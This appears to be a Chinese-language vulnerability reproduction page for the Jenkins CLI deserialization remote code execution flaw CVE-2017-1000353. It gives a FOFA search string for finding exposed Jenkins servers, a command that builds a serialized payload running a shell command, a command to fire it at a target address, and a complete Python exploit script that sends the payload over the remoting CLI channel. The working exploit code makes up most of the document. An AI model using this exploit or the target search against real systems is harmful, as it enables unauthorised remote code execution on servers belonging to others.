




# Jenkins CI 远程代码执行漏洞 CVE-2017-1000353

## 漏洞描述

攻击者可以将序列化的Java SignedObject对象，传输到基于远程处理的Jenkins CLI，这将最终造成反序列化，进而绕过现有基于黑名单的保护机制。Altoros Jenkins for PCF 1.0.2之前所有版本都受影响，所有用户尽快升级

## 漏洞影响

```
Jenkins
```

## FOFA

```
app="Jenkins"
```

## 漏洞复现

登录页面




生成 `jenkins_poc.ser`

```
java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar jenkins_poc.ser "touch /tmp/success"
```



使用Python脚本命令执行

```
https://github.com/vulhub/CVE-2017-1000353/blob/master/exploit.py
python3 jenkins.py http://xxx.xxx.xxx.xxx:8080 jenkins_poc.ser
```



成功生成 success



## 漏洞POC

```python
import urllib
import sys
import requests
import uuid
import threading
import time
import gzip
import urllib3
import zlib

proxies = {
# 'http': 'http://127.0.0.1:8085',
# 'https': 'http://127.0.0.1:8090',
}

URL = '%s/cli' % sys.argv[1].rstrip('/')

PREAMLE = b'<===[JENKINS REMOTING CAPACITY]===>rO0ABXNyABpodWRzb24ucmVtb3RpbmcuQ2FwYWJpbGl0eQAAAAAAAAABAgABSgAEbWFza3hwAAAAAAAAAH4='
PROTO = b'\x00\x00\x00\x00'

with open(sys.argv[2], "rb") as f:
    FILE_SER = f.read()

def download(url, session):

    headers = {'Side' : 'download'}
    headers['Content-type'] = 'application/x-www-form-urlencoded'
    headers['Session'] = session
    headers['Transfer-Encoding'] = 'chunked'
    r = requests.post(url, data=null_payload(), headers=headers, proxies=proxies, stream=True, verify=False)
    print(r.content)


def upload(url, session, data):

    headers = {'Side' : 'upload'}
    headers['Session'] = session
    headers['Content-type'] = 'application/octet-stream'
    headers['Accept-Encoding'] = None
    r = requests.post(url,data=data,headers=headers,proxies=proxies, verify=False)


def upload_chunked(url,session, data):

    headers = {'Side' : 'upload'}
    headers['Session'] = session
    headers['Content-type'] = 'application/octet-stream'
    headers['Accept-Encoding']= None
    headers['Transfer-Encoding'] = 'chunked'
    headers['Cache-Control'] = 'no-cache'

    r = requests.post(url, headers=headers, data=create_payload_chunked(), proxies=proxies, verify=False)


def null_payload():
    yield b" "

def create_payload():
    payload = PREAMLE + PROTO + FILE_SER

    return payload

def create_payload_chunked():
    yield PREAMLE
    yield PROTO
    yield FILE_SER

def main():
    print("start")

    session = str(uuid.uuid4())

    t = threading.Thread(target=download, args=(URL, session))
    t.start()
    
    time.sleep(2)
    print("pwn")
    #upload(URL, session, create_payload())

    upload_chunked(URL, session, "asdf")

if __name__ == "__main__":
    main()
```